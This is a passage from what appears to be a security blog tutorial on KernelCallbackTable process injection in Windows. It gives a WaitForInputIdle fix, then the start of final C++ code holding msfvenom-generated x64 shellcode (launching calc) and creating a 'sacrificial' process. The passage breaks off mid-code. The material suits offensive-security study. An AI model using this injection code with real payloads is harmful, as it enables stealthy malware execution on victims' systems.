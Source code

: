 [![Created Process with Window](/static/img/2022-04-21-kernelcallbacktable-injection/process-has-window.png)](/static/img/2022-04-21-kernelcallbacktable-injection/process-has-window.png)

### Third Attempt: SUCCESS!

After some digging, the reason my second attempt failed is that I didn't give the created process enough time to initialize its inputs. A `Sleep()` function will fix the issue _(I tried it and it worked)_. However, I don't want to wait until the number of seconds passed in `Sleep()` lapsed. I used `WaitForInputIdle()` instead so it will only wait until the process has finished its initialization.
```cpp
WaitForInputIdle(pi.hProcess, 1000);
```

Here's the final code that I came up with.
```cpp
#include <Windows.h>
#include <stdio.h>
#include "struct.h"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c
	unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T payloadSize = sizeof(payload);

	// Create a sacrifical process
	PROCESS_INFORMATION pi;
	STARTUPINFO si = { sizeof(STARTUPINFO) };
	si.dwFlags = STARTF_USESHOWWINDOW;
```